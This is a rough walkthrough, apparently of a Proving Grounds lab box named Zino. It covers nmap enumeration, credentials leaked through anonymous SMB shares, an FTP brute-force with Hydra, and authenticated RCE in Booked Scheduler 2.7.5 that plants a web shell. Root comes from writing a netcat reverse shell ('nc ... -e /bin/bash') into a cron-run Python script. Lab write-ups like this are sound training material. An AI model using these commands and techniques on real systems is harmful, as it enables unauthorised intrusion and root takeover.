


# Zino (rough notes)

Initial port scan:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ nmap -v -Pn -p- -T4 zino                                                                           
....

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8003/tcp open  mcreport
```

Service fingerprinting:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ nmap -v -Pn -p 21,22,139,445,3306,8003 -A zino                                                     
...

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b2:66:75:50:1b:18:f5:e9:9f:db:2c:d4:e3:95:7a:44 (RSA)
|   256 91:2d:26:f1:ba:af:d1:8b:69:8f:81:4a:32:af:9c:77 (ECDSA)
|_  256 ec:6f:df:8b:ce:19:13:8a:52:57:3e:72:a3:14:6f:40 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
3306/tcp open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, LDAPSearchReq, NCP, NULL, TerminalServerCookie: 
|_    Host '192.168.45.172' is not allowed to connect to this MariaDB server
8003/tcp open  http        Apache httpd 2.4.38
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2019-02-05 21:02  booked/
|_
|_http-server-header: Apache/2.4.38 (Debian)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.94SVN%I=7%D=3/9%Time=65ECB5A1%P=aarch64-unknown-linux-
SF:gnu%r(NULL,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.172'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(H
SF:TTPOptions,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.172'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(T
SF:erminalServerCookie,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.172'\x
SF:20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20ser
SF:ver")%r(FourOhFourRequest,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.
SF:172'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\
SF:x20server")%r(LDAPSearchReq,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45
SF:\.172'\x20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaD
SF:B\x20server")%r(NCP,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.45\.172'\x
SF:20is\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20ser
SF:ver");
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: zino
|   NetBIOS computer name: ZINO\x00
|   Domain name: \x00
|   FQDN: zino
|_  System time: 2024-03-09T14:17:01-05:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 1h39m59s, deviation: 2h53m13s, median: 0s
| smb2-time: 
|   date: 2024-03-09T19:17:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

So we have:

- an ftp server
- an ssh server
- two smb servers
- a mysql server rejecting connections from our host
- an http server

#### FTP

No anonymous access:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ ftp zino                                      
Connected to zino.
220 (vsFTPd 3.0.3)
Name (zino:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
```

No applicable exploits:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ searchsploit vsftpd
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Consumption    | linux/dos/5814.pl
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (1)    | windows/dos/31818.sh
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Service (2)    | windows/dos/31819.pl
vsftpd 2.3.2 - Denial of Service                                  | linux/dos/16270.c
vsftpd 2.3.4 - Backdoor Command Execution                         | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)            | unix/remote/17491.rb
vsftpd 3.0.3 - Remote Denial of Service                           | multiple/remote/49719.py
------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

#### SMB

There is anonymous access:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ smbclient -L zino -N  

	Sharename       Type      Comment
	---------       ----      -------
	zino            Disk      Logs
	print$          Disk      Printer Drivers
	IPC$            IPC       IPC Service (Samba 4.9.5-Debian)
Reconnecting with SMB1 for workgroup listing.

	Server               Comment
	---------            -------

	Workgroup            Master
	---------            -------
	WORKGROUP            
```

Looking at the zino disk:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ smbclient \\\\zino\\zino     
Password for [WORKGROUP\kali]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Jul  9 12:11:49 2020
  ..                                  D        0  Tue Apr 28 06:38:53 2020
  .bash_history                       H        0  Tue Apr 28 08:35:28 2020
  error.log                           N      265  Tue Apr 28 07:07:32 2020
  .bash_logout                        H      220  Tue Apr 28 06:38:53 2020
  local.txt                           N       33  Sat Mar  9 11:15:15 2024
  .bashrc                             H     3526  Tue Apr 28 06:38:53 2020
  .gnupg                             DH        0  Tue Apr 28 07:17:02 2020
  .profile                            H      807  Tue Apr 28 06:38:53 2020
  misc.log                            N      424  Tue Apr 28 07:08:15 2020
  auth.log                            N      368  Tue Apr 28 07:07:54 2020
  access.log                          N     5464  Tue Apr 28 07:07:09 2020
  ftp                                 D        0  Tue Apr 28 07:12:56 2020
```

Interesting... could `local.txt` be our first flag?

```
smb: \> get local.txt
getting file \local.txt of size 33 as local.txt (0.1 KiloBytes/sec) (average 3.4 KiloBytes/sec)
```

In a different terminal session I inspect the file and it is indeed our first flag...

```
┌──(kali㉿kali)-[~/offsec/zino/files]
└─$ cat local.txt       
bc3e205cbd9b216d4db11ebe58565ff8
```

I take more files from the smbserver...

Before looking at the files, I take a look at the other shares. `IPC$` let me in but had no files. `print$` did not let me in.

From dumpster diving in the `zino` share we learn a few things:

- The remote machine has bash (there's bashrc and related files)
- The remote machine is running Apache/2.4.38 (Debian) mod_wsgi/4.6.5 Python/2.7

```
┌──(kali㉿kali)-[~/offsec/zino/files]
└─$ cat error.log 
[Tue Apr 28 08:04:48.610828 2020] [mpm_prefork:notice] [pid 498] AH00163: Apache/2.4.38 (Debian) mod_wsgi/4.6.5 Python/2.7 configured -- resuming normal operations
[Tue Apr 28 08:04:48.610841 2020] [core:notice] [pid 498] AH00094: Command line: '/usr/sbin/apache2'
```

- The remote machine has a user named `peter`

```
┌──(kali㉿kali)-[~/offsec/zino/files]
└─$ cat auth.log  
Apr 28 08:16:54 zino groupadd[1044]: new group: name=peter, GID=1001
Apr 28 08:16:54 zino useradd[1048]: new user: name=peter, UID=1001, GID=1001, home=/home/peter, shell=/bin/bash
Apr 28 08:17:01 zino passwd[1056]: pam_unix(passwd:chauthtok): password changed for peter
Apr 28 08:17:01 zino CRON[1058]: pam_unix(cron:session): session opened for user root by (uid=0)
```

- The remote machine has some process/server with credentials `admin:adminadmin`:

```
┌──(kali㉿kali)-[~/offsec/zino/files]
└─$ cat misc.log  
Apr 28 08:39:01 zino systemd[1]: Starting Clean php session files...
Apr 28 08:39:01 zino CRON[2791]: (CRON) info (No MTA installed, discarding output)
Apr 28 08:39:01 zino systemd[1]: phpsessionclean.service: Succeeded.
Apr 28 08:39:01 zino systemd[1]: Started Clean php session files.
Apr 28 08:39:01 zino systemd[1]: Set application username "admin"
Apr 28 08:39:01 zino systemd[1]: Set application password "adminadmin"
```

- The machine is running a webserver and we learn of some paths:

```
┌──(kali㉿kali)-[~/offsec/zino/files]
└─$ cat access.log 
192.168.234.30 - - [28/Apr/2020:08:26:05 -0400] "GET / HTTP/1.1" 200 664 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:06 -0400] "GET /icons/blank.gif HTTP/1.1" 200 431 "http://192.168.234.130:8003/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:06 -0400] "GET /icons/folder.gif HTTP/1.1" 200 508 "http://192.168.234.130:8003/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:06 -0400] "GET /favicon.ico HTTP/1.1" 404 495 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/ HTTP/1.1" 200 223 "http://192.168.234.130:8003/" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/? HTTP/1.1" 200 3984 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/scripts/css/jquery-ui-timepicker-addon.css?v=2.7.5 HTTP/1.1" 200 787 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/css/null-style.css?v=2.7.5 HTTP/1.1" 200 426 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/css/booked.css?v=2.7.5 HTTP/1.1" 200 11164 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/scripts/js/jquery-ui-timepicker-addon.js?v=2.7.5 HTTP/1.1" 200 18938 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/img/booked.png?2.6 HTTP/1.1" 200 4844 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/img/external/btn_google_signin_dark_normal_web.png HTTP/1.1" 200 4268 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/img/external/btn_facebook_login.png HTTP/1.1" 200 14457 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/img/booked.png?2.7.5 HTTP/1.1" 200 4844 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/scripts/phpscheduleit.js?v=2.7.5 HTTP/1.1" 200 1756 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:08 -0400] "GET /booked/Web/favicon.ico HTTP/1.1" 200 32340 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:16 -0400] "POST /booked/Web/index.php HTTP/1.1" 302 341 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:16 -0400] "GET /booked/Web/dashboard.php HTTP/1.1" 200 3588 "http://192.168.234.130:8003/booked/Web/?" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/js/owl-2.2.1/assets/owl.theme.default.css?v=2.7.5 HTTP/1.1" 200 864 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/js/owl-2.2.1/assets/owl.carousel.min.css?v=2.7.5 HTTP/1.1" 200 1252 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/dashboard.js?v=2.7.5 HTTP/1.1" 200 1416 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/js/owl-2.2.1/owl.carousel.min.js?v=2.7.5 HTTP/1.1" 200 11285 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/resourcePopup.js?v=2.7.5 HTTP/1.1" 200 1618 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/scripts/ajax-helpers.js?v=2.7.5 HTTP/1.1" 200 2332 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
192.168.234.30 - - [28/Apr/2020:08:26:17 -0400] "GET /booked/Web/img/booked.png?2.7.5 HTTP/1.1" 304 181 "http://192.168.234.130:8003/booked/Web/dashboard.php" "Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0"
```

---

I'll try brute forcing the FTP server with username `peter` while I look at the http server...

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ hydra -l peter -P /usr/share/wordlists/rockyou.txt ftp://zino     
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-09 11:46:44
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://zino:21/
[STATUS] 256.00 tries/min, 256 tries in 00:01h, 14344143 to do in 933:52h, 16 active
```

#### HTTP

Looking at the HTTP webserver on port 8003 in Firefox:



And clicking on the only available path we get redirected to


A few thoughts at this point:

- the http logs we saw earlier are definitely for this server
- the credentials we saw earlier will likely work on this login page
- the software behind this server is "Booked Scheduler v2.7.5"

Trying the credentials `admin:adminadmin` lets us in:



Looking up "booked scheduler" on exploit-db gets some promising hits:

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ searchsploit booked scheduler
------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
Booked Scheduler 2.7.5 - Remote Command Execution (Metasploit)          | php/webapps/46486.rb
Booked Scheduler 2.7.5 - Remote Command Execution (RCE) (Authenticated) | php/webapps/50594.py
Booked Scheduler 2.7.7 - Authenticated Directory Traversal              | php/webapps/48428.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

We'll try the second one (`50594.py`) which corresponds to CVE-2019-9581. I read the code for usage and it seems it sets up its own shell, great!

We get a shell!

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ python 50594.py http://zino:8003 admin adminadmin
[+] Logged in successfully.
[+] Uploaded shell successfully
[+] http://zino:8003/booked/Web/custom-favicon.php?cmd=

$ whoami
www-data
```


## Privilege Escalation

I find a cron job running a python script and I'm pretty sure that's our vector:

```
$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*/3 *   * * *   root    python /var/www/html/booked/cleanup.py
#
```

Looking at that file:

```
$ cat /var/www/html/booked/cleanup.py
#!/usr/bin/env python
import os
import sys
try:
        os.system('rm -r /var/www/html/booked/uploads/reservation/* ')
except:
        print 'ERROR...'
sys.exit(0)
```

I was having trouble with writing code in this shell so I got a new one...

```
http://zino:8003/booked/Web/custom-favicon.php?cmd=nc%20-nv%20192.168.45.172%208003%20-e%20/bin/bash
```

I just navigated to this URL in the browser^. I got that URL by reading the exploit python code.

Anyways, once in a better shell, I write a reverse shell into the python script that gets ran by the cron job:

```
www-data@zino:/var/www/html/booked$ cat << EOF > cleanup.py
cat << EOF > cleanup.py
> import os
import os
> os.system('nc -nv 192.168.45.172 8003 -e /bin/bash')
os.system('nc -nv 192.168.45.172 8003 -e /bin/bash')
> EOF
EOF
www-data@zino:/var/www/html/booked$
```

I exit my session and restart the listener:

```
www-data@zino:/var/www/html/booked$ ^C
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/zino]
└─$ nc -lvnp 8003
listening on [any] 8003 ...
```

And eventually we get a shell as root!

```
┌──(kali㉿kali)-[~/offsec/zino]
└─$ nc -lvnp 8003
listening on [any] 8003 ...
connect to [192.168.45.172] from (UNKNOWN) [192.168.173.64] 43312
whoami
root
```

And we find our flag where we expect it

```
cd /root
cat proof.txt
89e49f3616a631862df159935e26d135
```

---

### Afterthoughts

I spent a lot of time writing reverse shells and tweaking that python script because I didn't realize that the box could only talk to ports 8003... as reflected by iptables

So the lesson is always try setting up reverse shells to talk to either well known ports OR ports that are used by services in the victim host...

I've seen this in other proving-grounds machines where outbound access is restricted to port 80/443.

```
iptables -L
Chain INPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ftp
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:netbios-ssn
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:microsoft-ds
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:mysql
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:8003
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply

Chain FORWARD (policy ACCEPT)
target     prot opt source               destination         

Chain OUTPUT (policy ACCEPT)
target     prot opt source               destination         
ACCEPT     all  --  anywhere             anywhere            
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ftp state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:ftp state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:ssh state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:ssh state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:netbios-ssn state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:netbios-ssn state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:microsoft-ds state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:microsoft-ds state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:mysql state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:mysql state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp dpt:8003 state NEW,ESTABLISHED
ACCEPT     tcp  --  anywhere             anywhere             tcp spt:8003 state NEW,ESTABLISHED
ACCEPT     icmp --  anywhere             anywhere             icmp echo-request
ACCEPT     icmp --  anywhere             anywhere             icmp echo-reply
DROP       all  --  anywhere             anywhere            
```